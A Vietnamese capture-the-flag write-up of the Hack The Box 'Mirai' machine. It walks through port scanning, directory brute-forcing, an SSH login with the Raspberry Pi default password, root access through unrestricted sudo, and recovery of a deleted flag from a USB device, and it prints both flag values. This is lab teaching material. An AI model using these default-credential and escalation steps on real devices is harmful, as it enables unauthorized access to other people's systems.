



# Thông tin


> [!NOTE]
> Mức độ: Dễ
> Url: https://app.hackthebox.com/machines/Mirai
> Nền tảng: Linux
> Mô tả: Mirai là một trong những phương thức tấn công phát triển nhanh nhất hiện nay; đó là các thiết bị IoT được cấu hình không đúng cách. Phương thức tấn công này liên tục gia tăng khi ngày càng nhiều thiết bị IoT được tạo ra và triển khai trên toàn cầu, và đang bị khai thác tích cực bởi nhiều loại mạng botnet khác nhau. Các thiết bị IoT nội bộ cũng đang được các tác nhân độc hại sử dụng để duy trì hoạt động lâu dài.
> https://en.wikipedia.org/wiki/Mirai_(malware)
> https://pi-hole.net/


# Recon

## Port Scan

> Dùng nmap quét tất cả các cổng , nếu quét các cổng phổ biến sẽ không phát hiện hết 

```
nmap -sSVC -p- -Pn -T4 10.129.55.163
```

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-15 06:21 -0400
Warning: 10.129.55.163 giving up on port because retransmission cap hit (6).
Nmap scan report for mirai.htb (10.129.55.163)
Host is up (0.061s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Website Blocked
1183/tcp  open     upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open     http    Plex Media Server httpd
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-favicon: Plex
|_http-title: Unauthorized
32469/tcp open     upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
39058/tcp filtered unknown
45040/tcp filtered unknown
46777/tcp filtered unknown
51857/tcp filtered unknown
53343/tcp filtered unknown
56540/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.62 seconds
```

> Kết quả phát hiện 6 cổng mở 

| Port       | Service | Version                                        |
| ---------- | ------- | ---------------------------------------------- |
| 22         | ssh     | OpenSSH 6.7p1 Debian 5+deb8u3                  |
| 53         | domain  | dnsmasq 2.76                                   |
| 80         | http    | lighttpd 1.4.35                                |
| 32400      | http    | Plex Media Server httpd                        |
| 1183,32469 | upnp    | Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50) |
## Web cổng 80

> Liệt kê các thư mục ẩn thu được thư mục /admin/

```bash
└─$ feroxbuster -u http://mirai.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -d 2 -x php,html,txt,xml,sh -C 404,500  
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://mirai.htb/
 🚩  In-Scope Url          │ mirai.htb
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, xml, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      135l      430w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l        8w      168c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        0l        0w        0c http://mirai.htb/admin => http://mirai.htb/admin/
301      GET        0l        0w        0c http://mirai.htb/admin/scripts => http://mirai.htb/admin/scripts/
301      GET        0l        0w        0c http://mirai.htb/admin/img => http://mirai.htb/admin/img/
301      GET        0l        0w        0c http://mirai.htb/admin/style => http://mirai.htb/admin/style/
200      GET        1l        1w       18c http://mirai.htb/versions
200      GET       57l      219w     2491c http://mirai.htb/painel
[####################] - 3m    319020/319020  0s      found:6       errors:5      
[####################] - 2m    159504/159504  1078/s  http://mirai.htb/ 
[####################] - 3m    159504/159504  1031/s  http://mirai.htb/admin/ 
```

> Xem mã nguồn http://mirai.htb/admin/ phát hiện ra 1 đường dẫn chứa tên miền mới 

 

> Nhưng đều dẫn đến 1 dashboard Pi-hole là một ứng dụng nguồn mở miễn phí, hoạt động như một máy chủ chặn quảng cáo và trình theo dõi ở cấp độ mạng



# Exploit

> Dựa vào thông tin Pi-hole ta biết đây có thể liên quan đến Raspberry Pi 
> Nên dùng thông tin pi:raspberry và thành công vào máy mục tiêu 

```bash
└─$ ssh pi@mirai.htb
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
pi@mirai.htb's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct 15 11:35:43 2026 from 10.10.15.211

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~ $ whoami
pi
```

> User flag trong `/home/pi/Desktop/user.txt`

```
ff837707441b257a20e32199d7c8838d
```

# Privelege Escalation

> Liệt kê các lệnh người dùng có thể thực hiện với sudo 
> Người dùng có thể thực hiện mọi lệnh mọi quyền mà không cần mật khẩu

```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

```

> Leo thang 

```
pi@raspberrypi:~ $ sudo su root
root@raspberrypi:/home/pi# id
uid=0(root) gid=0(root) groups=0(root)
root@raspberrypi:/home/pi# whoami
root
```

> Đọc tệp /root/root.txt thì flag đã xóa và có file backup trong usb 

```
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

> Liệt kê tất cả các thiết bị lưu trữ 

```
root@raspberrypi:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:~# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102396k,mode=755)
/dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
/dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
/dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
aufs on / type aufs (rw,noatime,si=3d6a0757,noxino)
devtmpfs on /dev type devtmpfs (rw,nosuid,size=10240k,nr_inodes=58955,mode=755)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=22,pgrp=1,timeout=300,minproto=5,maxproto=5,direct)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
mqueue on /dev/mqueue type mqueue (rw,relatime)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,relatime)
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
tmpfs on /run/user/999 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=999,gid=997)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=1000,gid=1000)
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)
```

> Usb được mount vào /media/usbstick/
> Nhưng file cũng đã bị xóa nếu vùng nhớ trên thiết bị USB chưa bị ghi đè thì có thể khôi phục nội dung 

```
root@raspberrypi:/var/backups# cd /media/usbstick/
root@raspberrypi:/media/usbstick# ls -al
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

> Liệt kê các chuỗi kĩ tự trong USB có 1 chuỗi có thể là root.txt

```
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

> Xem nội dung /dev/sdb là thiết bị USB bằng mã hexa và lọc các chuỗi mã vô nghĩa 

```
xxd /dev/sdb | grep -v '0000 0000 0000 0000 0000 0000 0000 0000' | grep -v 'ffff ffff ffff ffff ffff ffff ffff ffff'
```


# Kết luận 

> [!NOTE]
> Phòng này liên quan đến việc đoán thông tin xác thực dựa vào các thông tin hệ thống liên quan Malware Mirai , Pi-le và Respberry Pi 
> Dúng kĩ thuật forensic để khôi phục cờ 